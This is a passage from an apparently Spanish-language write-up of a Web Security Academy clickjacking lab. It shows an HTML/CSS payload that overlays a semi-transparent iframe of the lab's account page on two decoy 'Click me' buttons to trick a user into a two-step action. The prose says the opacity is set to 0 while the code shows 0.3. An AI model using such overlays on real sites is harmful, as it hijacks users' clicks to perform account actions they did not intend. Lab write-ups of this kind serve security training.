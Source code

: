 ![](/assets/img/Clickjacking-Lab-5/image_9.png)

Una vez que hemos comprobado que está bien `centrado`, le `cambiamos` la `opacidad` a `0`

```
<style>
	iframe {
		position:relative;
		width:400;
		height: 550;
		opacity: 0.3;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:495;
		left:150;
		z-index: 1;
	}
   .secondClick {
		top:315;
		left:155;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a77006f03f4bcd5893ea08800a90071.web-security-academy.net/my-account"></iframe>
```